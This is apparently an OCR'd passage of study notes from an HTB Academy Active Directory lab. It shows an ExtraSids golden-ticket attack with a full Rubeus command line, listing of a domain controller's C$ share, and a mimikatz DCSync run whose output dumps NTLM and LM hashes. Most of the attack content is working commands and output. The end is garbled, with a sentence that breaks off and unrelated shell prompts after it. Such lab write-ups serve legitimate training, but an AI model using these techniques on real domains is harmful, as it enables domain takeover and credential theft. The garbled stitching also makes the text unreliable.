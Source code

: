 Now running this  command,  we have access.`PS C:\htb> ls \\academy-ea-dc01.inlanefreight.local\c$`

- `ls \\academy-ea-dc01.inlanefreight.local\c$` → listing the entire C: Drive of the Domain Controller

# **ExtraSids Attack - Rubeus**

- `PS C:\htb>  .\Rubeus.exe golden /rc4:9d765b482771505cbe97411065964d5f /domain:LOGISTICS.INLANEFREIGHT.LOCAL /sid:S-1-5-21-2806153819-209893948-922872689  /sids:S-1-5-21-3842939050-3880317879-2865463114-519 /user:hacker /ptt` →creating golden ticket using Rubeus
- `klist` to confirm ticket is in Memory

## **Performing a DCSync Attack against `lab_adm` domain user**

```powershell
PS C:\Tools\mimikatz\x64> .\mimikatz.exe

  .#####.   mimikatz 2.2.0 (x64) #19041 Aug 10 2021 17:19:53 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo) ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com ) ## \ / ##       > https://blog.gentilkiwi.com/mimikatz '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz # lsadump::dcsync /user:INLANEFREIGHT\lab_adm
[DC] 'INLANEFREIGHT.LOCAL' will be the domain
[DC] 'ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL' will be the DC server
[DC] 'INLANEFREIGHT\lab_adm' will be the user account
[rpc] Service  : ldap
[rpc] AuthnSvc : GSS_NEGOTIATE (9)

Object RDN           : lab_adm

** SAM ACCOUNT **

SAM Username         : lab_adm
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00010200 ( NORMAL_ACCOUNT DONT_EXPIRE_PASSWD )
Account expiration   :
Password last change : 2/27/2022 10:53:21 PM
Object Security ID   : S-1-5-21-3842939050-3880317879-2865463114-1001
Object Relative ID   : 1001

Credentials:
  Hash NTLM: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 0: 663715a1a8b957e8e9943cc98ea451b6
    ntlm- 1: 663715a1a8b957e8e9943cc98ea451b6
    lm  - 0: 6053227db44e996fe16b107d9d1e95a0
```

When dealing with multiple domains and our target domain is not the same as the user's domain, we will need to specify the exact domain to perform the DCSync operation on the particular domain controller. The command for this would look like the following:


[ACADEMY-EA-DB01]: PS C:\Users\forend\Documents> Exit-PSSession
[ACADEMY-AEN-DEV01.INLANEFREIGHT.LOCAL]: PS C:\Users\backupadm\Documents> klist
[DEV01]: PS C:\Users\backupadm\Documents> klist